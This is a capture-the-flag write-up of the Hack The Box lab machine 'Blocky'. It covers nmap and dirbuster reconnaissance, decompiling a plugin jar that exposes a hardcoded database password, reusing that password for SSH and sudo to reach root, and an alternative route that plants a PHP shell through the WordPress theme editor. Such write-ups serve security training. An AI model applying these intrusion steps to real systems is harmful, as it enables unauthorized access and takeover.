 # HTB - Blocky
## OS - Linux

I started with an nmap scan as usual. IP Address of Blocky: 10.10.10.37

```
$nmap -sC -sV -oN Blocky.nmap 10.10.10.37
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-09 12:06 PST
Nmap scan report for 10.10.10.37
Host is up (0.094s latency).
Not shown: 996 filtered ports
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.00 seconds
```

Ports 21, 22, and 80 are open. Internet search showed there are some interesting exploits in WordPress 4.8 that we might be able to use.

Ran dirbuster after that. There are a lot of results like "http://10.10.10.37/index.php/2017/07/02/welcome-to-blockycraft/".

It shows a post by user notch. http://10.10.10.37/wp-includes/ shows the php scripts loaded on the web site.
It shows http://10.10.10.37/wiki which says
```
Under Construction

Please check back later! We will start publishing wiki articles after we have finished the main server plugin!

The new core plugin will store your playtime and other information in our database, so you can see your own stats!
```
So I tried /plugin and /plugins.

http://10.10.10.37/plugins shows two jar files. I downloaded the jar files.

I am used to procyon java disassembler but for some reason, I could not build it on this machine. So I downloaded jd-gui as it was suggested as an alternative.

Using jd-gui, I browsed the two jar files - BlockyCore.jar and griefprevention.jar.

BlockyCore.jar once disassembled shows BlockyCore.class with the following contents:

```
package com.myfirstplugin;

public class BlockyCore {
  public String sqlHost = "localhost";
  
  public String sqlUser = "root";
  
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
  
  public void onServerStart() {}
  
  public void onServerStop() {}
  
  public void onPlayerJoin() {
    sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
  }
  
  public void sendMessage(String username, String message) {}
}
```

Tried to ssh into the box as root with the above password but it did not work.

The message "Welcome to the Blcokycraft" shows up with author notch on the webpage, so I tried to ssh as notch. This time it worked.

```
$ssh notch@10.10.10.37
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt 
```

Now to get privilege escalation, I tried "sudo -l". It asked for a passwd and I tried the above passwd. It worked.

```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo -i
root@Blocky:~# ls
root.txt
root@Blocky:~# cat root.txt 
```


The other way to do it is by ssh as notch, browse through wordpress /var/www/html for passwords, and through /etc/phpmyadmin for passwords. We find that there is a wordpress user login in /var/www/html/wp-config.php to log into blocky/phpmyadmin. Once we log into 10.10.10.37/phpmyadmin as "wordpress" user, we can go to wordpress->wp_users and change the password for notch. Then log into 10.10.10.37/wp_admin as notch with the new password. After logging into wp-admin, we can edit themes and add a php shell. 
